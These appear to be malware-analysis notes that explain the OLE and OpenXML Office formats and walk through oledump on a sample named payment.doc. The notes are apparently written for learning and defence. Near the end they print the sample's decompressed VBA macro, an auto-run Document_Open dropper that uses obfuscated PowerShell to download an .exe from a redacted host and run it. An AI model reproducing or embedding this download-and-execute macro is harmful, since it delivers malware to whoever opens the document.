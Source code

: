 <https://olefile.readthedocs.io/en/latest/OLE_Overview.html>

-   `.doc`, not `.docx`.
-   OLE = Object Linking and Embedding
-   Tree of linked objects
    -   Objects can be of stream or storage type
-   Office 2003-1997
-   Magic bytes `D0 CF 11 E0 A1 B1 1A E1`
-   Macros and the text content are all stored in file objects that are themselves stored in folder objects

![OLE tree structure example, from https://olefile.readthedocs.io/en/latest/_images/OLE_VBA_sample.png](/static/images/2020-04-27-analyzing-document-based-malware/OLE_VBA_sample.png)

### OpenOffice XML

-   Compressed ZIP file with a different extension, rename to `*.zip`
-   Try it out with a docx file!

## Analyzing malware

### The files

<https://github.com/HenryFBP/VagrantPackerFiles/tree/d2175b7252f8d3e16e0a41e193a9c7da35942245/vagrant/windows-analysis-and-vulnerable/shared/malware>

### payment.doc notes

- `oledump payment.doc`
- interesting that there are macros, viewing number 5/6 should yield interesting results.
- number 7: capital M `7: M`
- `oledump payment.doc -s 7` to view dump of macro. It appears to load malicious code from the web.
- `oledump payment.doc -s 7 -d` will show a columnar hexdump.

#### `oledump payment.doc -s 7 -v`

This gives decompressed vba code!

{% highlight vb linenos %}
Attribute VB_Name = "ThisDocument"
Attribute VB_Base = "1Normal.ThisDocument"
Attribute VB_GlobalNameSpace = False
Attribute VB_Creatable = False
Attribute VB_PredeclaredId = True
Attribute VB_Exposed = True
Attribute VB_TemplateDerived = True
Attribute VB_Customizable = True
Private Sub Document_Open()
Shell ("cmd.exe /c PoWerSHElL (nEW-oBjEcT sYsTeM.neT.wEBcLiEnT).dOWNLOadfIlE('hxxp://<REDACTED>/NDGAFV.exe','%Appdata%\playa.exe');&start %Appdata%\playa.exe& exit")
End Sub
{% endhighlight %}

#### `oleid .\payment.doc`
